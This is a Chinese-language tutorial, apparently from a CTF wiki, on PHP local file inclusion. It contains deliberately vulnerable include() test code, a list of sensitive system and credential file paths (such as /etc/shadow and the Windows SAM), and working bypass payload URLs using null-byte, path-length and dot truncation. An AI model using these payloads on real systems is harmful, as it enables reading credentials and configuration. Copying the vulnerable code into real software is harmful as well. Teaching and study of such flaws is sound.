




本地文件包含漏洞
无限制本地文件包含漏洞
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>
测试结果：
通过目录遍历漏洞可以获取到系统中其他文件的内容

常见的敏感信息路径
Windows系统
c:\boot.ini // 查看系统版本 c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件 c:\windows\repair\sam // 存储Windows系统初次安装的密码 c:\ProgramFiles\mysql\my,ini // MySQL配置 c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root c:\windows\php.ini // php 配置信息 c:\windows\my.ini ……
Linux/Unix系统
/etc/passwd // 账户信息 /etc/shadow // 账户密码文件 /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件 /usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置 /usr/local/app/php5/lib/php.ini // PHP相关配置 /etc/httpd/conf/httpd.conf // Apache配置文件 /etc/my.conf // mysql 配置文件
有限制本地文件包含漏洞绕过
%00截断
条件：
allow_url_fopen = Off
php版本<5.3.4
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>
测试结果：
http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00
通过%00截断了后面的html 
路径长度截断
条件：windows OS，点号需要长于256；linux OS 长于4096
windows下目录最大长度为256字节，超出的部分会被丢弃
linux下目录最大长度为4096字节，超出的部分会被丢弃
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>
EXP:
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
测试结果： 发现已经成功截断后面的.html，成功包含了test.txt文件 
点号截断
条件：windows OS，点号需要长于256
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>
EXP:
http://www.ctfs-wiki.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
测试结果： 发现已经成功截断后面的.html，成功包含了test.txt文件 